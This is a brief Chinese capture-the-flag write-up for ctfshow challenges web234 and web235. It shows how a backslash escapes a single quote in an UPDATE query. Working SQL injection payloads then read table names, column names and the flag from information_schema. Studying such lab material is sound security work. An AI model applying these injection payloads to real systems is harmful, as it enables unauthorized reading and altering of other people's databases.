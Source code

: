 ## web234~单引号逃逸

过滤了单引号。可以利用 `\` 实现单引号逃逸。

```
password=\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#
```

此时查询语句：

```
$sql = "update ctfshow_user set pass = '\' where username = '\&username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#';";
```

password就会变为 `' where username = ` 。

payload:

```
password=\&username=,username=(select group_concat(column_name) from information_schema.columns where table_name=0x666C6167323361)#

password=\&username=,username=(select flagass23s3 from flag23a)#
```

## web235

> 查询语句
>
> ```
>   //分页查询
>   $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
>       
> ```
>
> 返回逻辑
>
> ```
>   //过滤 or ' 
> 
> ```

information 中有 `or` ,



https://blog.csdn.net/solitudi/article/details/110144623

https://yq1ng.github.io/z_post/CTFSHOW-WEB%E5%85%A5%E9%97%A8-Ttick%E6%80%BB%E7%BB%93/#more

